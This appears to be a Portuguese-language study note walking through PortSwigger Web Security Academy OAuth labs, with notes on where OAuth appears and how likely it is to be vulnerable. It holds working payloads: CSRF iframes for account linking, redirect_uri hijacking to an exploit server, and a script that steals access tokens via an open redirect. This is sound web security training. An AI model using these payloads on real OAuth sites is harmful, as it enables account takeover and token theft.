 # OAuth

OAuth normalmente aparece na página de Sign-in. A request mais provável de ser vulnerável é `/auth?client_id=...`.

Probabilidade: $${\color{green}baixa}$$.

<br>

## Laboratórios

**Authentication Bypass via OAuth Implicit Flow**

Intercepte todo o processo de autenticação por oAuth e observe que a request POST /authenticate contém um e-mail.

Troque-o para o e-mail da vítima e abra o resultado dessa request no navegador.

<br>
<br>

**Forced OAuth Profile Linking**

Analise o preceso de anexar mídia social e observe que a request com o código `oauth` não possui o parâmetro `state`.
```
/oauth-linking?code=f4vwrTOuewZl1c57xpceroEU5sItRCyy9mFjxCLhmk1
```

Começe um processo para linkar a social media, pegue o código `oauth` e drope a request para não utilizá-lo.

Crie um iframe para explorar isso com CSRF:
```
<iframe src="https://0abc003804e351ab8225664700de000f.web-security-academy.net/oauth-linking?code=f4vwrTOuewZl1c57xpceroEU5sItRCyy9mFjxCLhmk1"></iframe>
```

<br>
<br>

**OAuth Account Hijacking via redirect_uri**

Mude o redirect_uri para o servidor de exploit.

O CSRF será:
```
<iframe src="https://oauth-0a64002304635a12826490d402450089.oauth-server.net/auth?client_id=b6ajkjihwmqj6pxjov0z8&redirect_uri=https://exploit-0ad100fa040b5a2c82f7918c01ce0085.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

Utilize o token capturado para logar em:
```
https://your-lab-id.web-security-academy.net/oauth-callback?code=CODE
```

<br>
<br>

**Stealing OAuth Access Tokens via an Open Redirect**

Confirme que o parâmetro `redirect_uri` está vulnerável a path traversal:
```
https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post?postId=1
```

Encontre o Open Redirect em `GET /post/next?path=[...]` e use-o para redirecioanr o usuário para o servidor de exploit.
```
https://oauth-0a6e00b1037acb5488803fab02f200d8.oauth-server.net/auth?client_id=j03v9dtv262k7l0vkb1uu&redirect_uri=https://0a9600540369cbe58856410e00a700c7.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a44004e0379cbe5887d403b01db00d7.exploit-server.net/exploit&response_type=token&nonce=376828613&scope=openid%20profile%20email
```

O seguinte script vai vazar o access token no parâmetro da URL ao redirecionar usuarios para o servidor de exploit por um segundo:
```html
<script>
window.location = '/?'+document.location.hash.substr(1)
</script>
```

Agora precisamos criar um exploit que primeiro força a vítima a visitar a URL maliciosa e depois executar o script para roubar o access token:
```html
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```

No Repeater, vá para a request GET /me e substitua o token no header Authorization: Bearer com o que você acabou de copiar para obter a chave de API da vítima.
